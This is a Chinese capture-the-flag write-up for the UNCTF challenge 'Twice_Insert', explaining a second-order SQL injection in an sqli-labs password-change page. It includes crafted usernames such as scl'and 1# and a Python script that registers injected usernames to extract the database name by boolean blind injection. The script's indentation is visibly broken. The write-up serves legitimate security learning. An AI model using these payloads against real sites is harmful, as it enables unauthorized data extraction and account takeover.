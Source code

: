 UNCTF-Twice_Insert
==============

原理分析
----------

题目提示twice-insert，分析是利用二次注入获取admin密码或者是暴库拿flag。

解题过程
----------

1）访问目标主机，打开页面发现是`sqli-labs-24`，原题是利用`二次注入`修改admin密码，这题修改admin密码却没有flag，要想拿到flag可能需要爆库。<br>
2）根据题意，尝试布尔盲注<br>
* 发现`or`被过滤，如此需要换一个思路，因为有注册按钮，尝试注册新用户。<br>

3)注册一个新用户`scl`，password为`1`，然后注册用户`scl’and 1#`（该用户名用于测试注入），password为`1`，用于后面的测试<br>
修改用户`scl’and 1#`的密码为`0`<br>
![](./images/4.png)<br>
修改成功：<br>
![](./images/7.png)<br>
4)将scl的密码重置为`1`：注册新的用户`scl’and 0#`，password为`1`，然后登陆该账号修改密码<br>
![](./images/5.png)<br>
回显如下：<br>
![](./images/6.png)<br>
密码更新失败，说明存在布尔盲注。

编写EXP
--------

写python脚本，通过多次注册用户、修改密码，进行暴库。
```python
#coding = utf-8
import requests
url = "http://183.129.189.60:10003/sqli/Less-24/login_create.php"
url1 = "http://183.129.189.60:10003/sqli/Less-24/login.php"
url2 = "http://183.129.189.60:10003/sqli/Less-24/pass_change.php"
#将密码改回1
def change21():
    user = "scl"
    s = requests.session()
    data = {
        "login_user": user,
        "login_password": '0',
        "mysubmit": "Login"
    }
    r = s.post(url1, data)
    data = {
        "current_password": '0',
        "password": '1',
        "re_password": '1',
        "submit": 'Reset'
    }
    r = s.post(url2, data)

def second():
    flag = ""
    tmp = 1
    for i in range(1, 50):
        if tmp == 0:
        break
    tmp = 0
    for j in range(32, 127):
        s = requests.session()
    user = "scl'and ascii(substr((select database())," + str(i) + ",1))=" +
        str(j) + "#"
    print user
    # 注册用户名
    data = {
        "username": user,
        "password": '1',
        "re_password": '1',
        "submit": "Register"
    }
    r = s.post(url, data)
    # 登录用户
    data = {
        "login_user": user,
        "login_password": '1',
        "mysubmit": "Login"
    }
    r = s.post(url1, data)
    # print r.content.decode()
    if "YOU ARE LOGGED IN AS" in r.content.decode():
        print "login ok"
    #
    更改密码
    data = {
        "current_password": '1',
        "password": '0',
        "re_password": '0',
        "submit": 'Reset'
    }
    r = s.post(url2, data)
    if "successfully updated" in r.content.decode():
        flag += chr(j)
    tmp = 1
    print "change ok"
    change21()
    break
    print flag
second()
```

总结
---

这个题目的类型是第一见，在北京联合大学举办的UNCTF里面第一次见到，然后昨天去打web安全的省赛又遇到了（安恒真会省事），当时拿到环境复现了一下，但是由于服务器原因，没有跑出完整的flag，但是是第一次见这类的题，写个题解学习一下。

